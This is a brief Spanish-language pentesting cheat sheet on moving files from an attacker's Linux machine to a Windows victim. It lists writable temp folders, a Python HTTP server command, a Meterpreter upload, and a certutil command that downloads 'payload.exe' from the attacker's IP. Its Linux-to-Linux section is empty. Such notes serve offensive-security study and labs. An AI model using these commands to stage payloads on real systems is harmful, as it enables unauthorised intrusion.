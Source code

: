 # Transferir archivos 

Tags: #Fileshare

## Linux a Windows 

```bash 
# Directorios en donde tienes los permisos de lectura y escritura en Windows 

C:\Temp
C:\Windows\Temp                          
```

```bash 
# Atacante Linux
2. ❯ python -m SimpleHTTPServer 80      # Creamos un servidor para poder pasar los archivos a la maquina Windows
```

```bash 
# Victima Windows 

1. ❯ upload ~/Downloads/file.exe         # Funciona en la sesion de Meterpreter, colocando la ruta absoluta del archivo a subir
2. ❯ certutil -urlcache -f http://IP/payload.exe payload.exe    # Para descargar el payload de la maquina Linux
	# IP = Direccion de la maquina de atacante Linux
	# payload.exe = Nombre del archivo a descargar en la maquina Windows 
```

## Linux a Linux

```bash 
# Atacante

1. ❯ 
```

```bash 
# Victima

1. ❯ 
```